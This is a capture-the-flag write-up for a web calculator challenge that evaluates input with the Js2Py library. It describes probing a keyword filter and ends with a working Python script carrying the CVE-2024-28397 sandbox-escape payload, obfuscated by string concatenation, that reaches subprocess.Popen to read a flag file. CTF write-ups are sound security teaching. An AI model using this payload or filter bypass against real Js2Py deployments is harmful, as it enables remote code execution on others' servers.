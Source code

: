 # Web/Retro Calculator

## Description

This is my first calculator ever, and it might have a 0day!!!

## Challenge Overview

![homePage](./images/homePage.png)

In this challenge we were given a simple calculator which would allow us to do some numerical calculation. Ananlyzing the request it is sending in BurpSuite we see that it is sending `inputs` in a `POST` request at `/results`.

![burpRequest](./images/burpRequest.png)

In order to make it easy to interact with the application, I made a simple script to send whatever inputs needed.

script.py
```py
import requests

baseURL = "" # Your instance url (like https://4d64da08e7dd80cc9dd2bdd1.deadsec.quest)
def result(inputs):
    url = baseURL + "/result"
    sendJSON = {"inputs": inputs}
    r = requests.post(url, json=sendJSON)
    return r
```

Now we can easily send whatever we need as our input. 

The first intuition I had in this challenge was that it might be calculating the answer in an `eval` and we might be able to somehow execute our code in there. But after trying to send a number of things, I found that certain things were blocked. Like we could not send `eval` and there were many such words and the response would be `Hacking Attempts!`. 

Finally I had tried sending `Object.getOwnPropertyNames(this)` and it finally returned something.
```json
{'result': "dict_keys(['true', 'false', 'null', 'undefined', 'Infinity', 'NaN', 'console', 'String', 'Number', 'Boolean', 'RegExp', 'Math', 'Date', 'Object', 'Function', 'Array', 'Int8Array', 'Uint8Array', 'Uint8ClampedArray', 'Int16Array', 'Uint16Array', 'Int32Array', 'Uint32Array', 'Float32Array', 'Float64Array', 'ArrayBuffer', 'parseFloat', 'parseInt', 'isFinite', 'isNaN', 'escape', 'unescape', 'encodeURI', 'decodeURI', 'encodeURIComponent', 'decodeURIComponent', 'Error', 'EvalError', 'TypeError', 'RangeError', 'ReferenceError', 'SyntaxError', 'URIError', 'eval', 'JSON', 'this', 'window', 'PyJsEvalResult'])", 'status': 'success'}
```

Here, `PyJsEvalResult` was interesting. After googling a bit, one of my teammates found [PiotrDabkowski/Js2Py](https://github.com/PiotrDabkowski/Js2Py) repository. This is what the server was using to calculate our answers and there was a recent exploit in this that gave could allow remote code execution.

[CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

We simply had to use the exploit given here, [poc.py](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py) to get the rce. 

But when we sent the exploit, the server would simply respond with `Hacking Attempts!` which meant there be certain words in the exploit that were blocked.

The bypass we found for this filter was to use string concatenation. `eval` was blocked but if we sent it as `this['e' + 'val']`, it would work. That space is important as `'e'+'val'` was still blocked but but when I sent `'e' + 'val'`, it worked (I don't exactly know why).

## Exploit

Thus for our final exploit we used a script to find out all the words in the exploit that were blocked and then used the above technique to bypass the filter and obtained RCE.

exploit.py
```py
import requests

baseURL = "" # Your instance url (like https://4d64da08e7dd80cc9dd2bdd1.deadsec.quest)
def result(inputs):
    url = baseURL + "/result"
    sendJSON = {"inputs": inputs}
    r = requests.post(url, json=sendJSON)
    return r

exploit = """
let cmd = "ca" + "t /fla" + "g.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['_' + '_su' + 'bcl' + 'asses__']()) {
        let item = o['_' + '_s' + 'ubc' + 'lasses__']()[i]
        if(item.__module__ == "subpr" + "ocess" && item.__name__ == "Po" + "pen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
"""

# Code for checking the blocked words
# words = exploit.split()
# words = set(words)
# blocked = list()
# for word in words:
#     # print("Exploit:", word)
#     res = result(word).json()
#     if res["result"].lower() == "hacking attempts!":
#         blocked.append(word)

# print(blocked)

res = result(exploit).json()
if res["result"].lower() == "hacking attempts!":
    print("Failed")
else:
    print(res)
```